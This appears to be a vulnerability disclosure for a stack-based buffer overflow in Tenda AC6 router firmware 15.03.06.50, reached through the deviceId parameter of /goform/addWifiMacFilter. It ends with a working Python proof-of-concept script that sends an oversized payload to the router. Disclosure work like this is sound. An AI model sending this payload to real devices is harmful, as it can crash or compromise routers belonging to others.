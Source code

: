 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/addWifiMacFilter`. When `deviceId`/`deviceMac` is specified with excessive data, the buffer overflow occurs during `sprintf`.

![alt text](image-1.png)
## poc
![alt text](image.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'deviceId': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/addWifiMacFilter", payload)
```
